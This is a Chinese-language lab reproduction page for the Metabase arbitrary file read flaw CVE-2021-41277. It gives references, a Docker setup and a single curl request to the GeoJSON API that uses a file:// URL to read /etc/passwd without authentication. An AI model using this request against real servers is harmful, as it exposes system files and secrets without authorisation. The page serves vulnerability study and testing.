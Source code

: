 # Metabase任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.40.0到0.40.4版本中，GeoJSON URL验证功能存在远程文件读取漏洞，未授权的攻击者可以利用这个漏洞读取服务器上的任意文件，包括环境变量等。

参考链接：

- https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr
- https://github.com/tahtaciburak/CVE-2021-41277

## 漏洞影响

```
metabase 0.40.0-0.40.4
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase 0.40.4版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，我们填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![image-20220517154249116](images/202205171542277.png)

## 漏洞复现

执行以下命令读取`/etc/passwd`：

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

![image-20220517154548409](images/202205171545732.png)